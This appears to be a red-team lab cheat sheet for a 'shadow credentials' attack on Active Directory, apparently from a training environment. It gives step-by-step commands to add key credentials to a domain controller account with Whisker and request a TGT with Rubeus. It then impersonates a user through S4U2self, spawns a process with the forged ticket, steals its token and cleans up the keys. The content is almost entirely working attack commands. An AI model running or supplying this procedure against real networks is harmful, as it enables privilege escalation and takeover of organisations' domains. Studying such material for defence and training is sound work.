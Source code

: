 > The basis of the "shadow credentials" attack is that if you can write to this attribute on a user or computer object, you can obtain a TGT for that principal

# First we want to list any keys that might already be present on target

```bash
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
```

# Add a new pair of keys to the target

```bash
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
```

# Use the command presented to get a TGT for that account

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap
```

# Use s4uself technique to impersonate a user on our liking

```bash
# s4uslef & s4uselfproxie will run
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

# Grab the second ticket and start a process
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

# Steal token from previous process
steal_token 2664
```

# When we are finished we can clean the stored keys

```bash
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:<id-here>
```
